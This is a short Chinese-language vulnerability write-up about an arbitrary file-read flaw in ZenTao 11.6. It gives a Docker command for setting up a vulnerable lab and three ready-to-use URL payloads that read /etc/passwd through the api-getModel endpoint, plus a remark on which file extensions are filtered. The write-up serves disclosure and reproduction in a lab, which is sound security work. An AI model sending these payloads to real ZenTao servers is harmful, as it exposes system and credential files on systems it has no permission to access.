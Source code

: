 # 禅道 11.6 版本 文件读取漏洞

>**Created by：** A-little-dragon
>
>**Team：** TracelessSec
>
>**漏洞描述：** 禅道 11.6 版本 文件读取漏洞

# 0x01 漏洞描述

禅道 11.6 版本中对用户接口调用权限过滤不完善，文件读取漏洞

# 0x02 影响版本

禅道 11.6

# 0x03 环境搭建

```
docker run --name zentao_v11.6 -p 8084:80 -v /u01/zentao/www:/app/zentaopms -v /u01/zentao/data:/var/lib/mysql -e MYSQL_ROOT_PASSWORD=123456 -d docker.io/yunwisdom/zentao:v11.6
```

访问 http://xxx.xxx.xxx.xxx:8084 安装即可

# 0x04 漏洞复现

## 方式一

```bash
http://{ip}:{port}/zentao/api-getModel-file-parseCSV-fileName=/etc/passwd#/
http://{ip}:{port}/api-getModel-file-parseCSV-fileName=/etc/passwd
```

![Untitled](image/Untitled.png)

> 注意以 `.php` `.txt` 结尾的会被 /framework/base/router.class.php中的parsePathInfo方法 过滤
> 

## 方式二

```bash
http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/etc/passwd/1
```
